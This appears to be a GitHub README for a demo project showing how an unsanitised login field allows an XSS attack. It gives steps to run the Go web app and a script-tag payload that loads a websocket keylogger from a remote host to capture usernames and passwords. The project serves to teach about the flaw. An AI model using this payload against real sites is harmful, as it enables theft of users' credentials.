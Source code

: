 # Xss-Keylogger-with-demo
A websocket keylogger that listens to user input

What is it?:

This is a simulation of a how vulnerable inputs can lead to Xss attacks. The payload is a websocket keyloagger that logs user input (username and password in this case)

Usage:
Step 1
run the webapp and navigate to the login page
```go run main.go -listen-addr=<ip>:<port> -ws-addr=<ip>:<port>```
![running the web app and navigating to the login page](https://github.com/SchrodingersNeko749/Xss-Keylogger-with-demo/blob/main/wsklogger1.png)

Step 2
Experiment with the username input. it will print everything that you write without sanitization.

https://github.com/SchrodingersNeko749/Xss-Keylogger-with-demo/blob/main/wsklogger2.png 

![experimenting with user input](https://github.com/SchrodingersNeko749/Xss-Keylogger-with-demo/blob/main/wsklogger2.png)

Step 3 
Run this javascript to make a websocket connection. it uses the same ip and port of the webapp in this case.
 ```<script src='http://<wskeylogger_ip>:<port>/k.js'></script>```
![running malicious script](https://github.com/SchrodingersNeko749/Xss-Keylogger-with-demo/blob/main/wsklogger3.png)

Step 4
See how every input is now being logged
![running malicious script](https://github.com/SchrodingersNeko749/Xss-Keylogger-with-demo/blob/main/wsklogger4.png)

